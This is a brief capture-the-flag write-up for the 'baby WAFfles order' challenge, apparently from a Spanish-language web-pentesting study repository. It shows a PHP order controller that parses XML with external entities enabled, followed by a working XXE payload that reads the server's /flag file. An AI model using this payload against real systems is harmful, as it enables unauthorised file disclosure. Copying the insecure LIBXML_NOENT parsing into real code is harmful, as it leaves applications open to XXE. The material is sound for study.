

# baby WAFfles order

```php
<?php
class OrderController
{
    public function order($router)
    {
        $body = file_get_contents('php://input');
        if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/json')
        {
            $order = json_decode($body);
            if (!$order->food) 
                return json_encode([
                    'status' => 'danger',
                    'message' => 'You need to select a food option first'
                ]);
            return json_encode([
                'status' => 'success',
                'message' => "Your {$order->food} order has been submitted successfully."
            ]);
        }
        else if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/xml')
        {
            $order = simplexml_load_string($body, 'SimpleXMLElement', LIBXML_NOENT);
            if (!$order->food) return 'You need to select a food option first';
            return "Your {$order->food} order has been submitted successfully.";
        }
        else
        {
            return $router->abort(400);
        }
    }
}
```

JSON to XML

```json
{"table_num":"1","food":"WAFfles"}
```

```xml
<?xml version="1.0" encoding="UTF-8" ?>
 <root>
     <table_num>1</table_num>
     <food>WAFfles</food>
 </root>
```




```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE food [
  <!ENTITY food SYSTEM "file:///flag">
]>
 <root>
     <table_num>1</table_num>
     <food>&food;</food>
 </root>
```

## Procedencia

| Repositorio | Archivo original | Commit de origen |
| --- | --- | --- |
| CBBH | Owasp top 10/5 - baby WAFfles order.md | 284a0a42d23a00f2b47b7460371a517a14cb6261 |

[Índice de categoría](../README.md) · [Inicio](../../README.md)
